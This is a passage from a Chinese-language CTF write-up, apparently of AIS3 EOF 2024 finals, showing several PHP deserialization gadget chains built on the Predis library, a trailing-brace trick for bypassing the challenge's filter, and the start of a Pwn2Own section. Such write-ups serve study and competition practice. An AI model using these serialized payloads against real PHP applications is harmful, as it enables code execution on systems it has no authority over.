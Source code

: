 ```python
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:13:"\x00*\x00parameters";O:28:"Predis\\Configuration\\Options":3:{s:10:"\x00*\x00options";a:0:{}s:8:"\x00*\x00input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:53:"\x00Predis\\Cluster\\Distributor\\HashRing\x00nodeHashCallback";s:10:"p0pp3r_win";s:42:"\x00Predis\\Cluster\\Distributor\\HashRing\x00nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:11:"\x00*\x00handlers";a:1:{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:29:"\\Predis\\Configuration\\Options";}}}'
b'O:34:"Predis\\Connection\\StreamConnection"::{s:10:"parameters";O:28:"Predis\\Configuration\\Options"::{s:7:"options";a::{}s:5:"input";a::{s:10:"persistent";a::{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing"::{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a::{i:0;a::{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a::{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":2:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:0:{}}}'
```

但最特別的還是這個

```python
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:36:"Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:36:"Predis\\Configuration\\Option\\Commands";}'
```

這兩個 chain 唯一的差別就是刪掉了最後面的 `}`, 是 starburst 隊發現的, 我在短短的 5 秒內分析出了這個手段, 然後把更多尾端的 `}` 刪掉送出, 就成功搶走他們的了, 這前後可能才十秒的時間, 所以這個真的是比手速.

這題是我跟其他隊交流最多的一題 (有打這題的隊伍比例只有 50%), 能感受到正在跟真人互動, 賽後也跟對上的人聊的很開心.

## Pwn2Own

題目是一個 樹莓派, 上面有 firmware, 是個計分板的 app.

![pwn2own](/ais3-eof-2024-final/pwn2own.png)
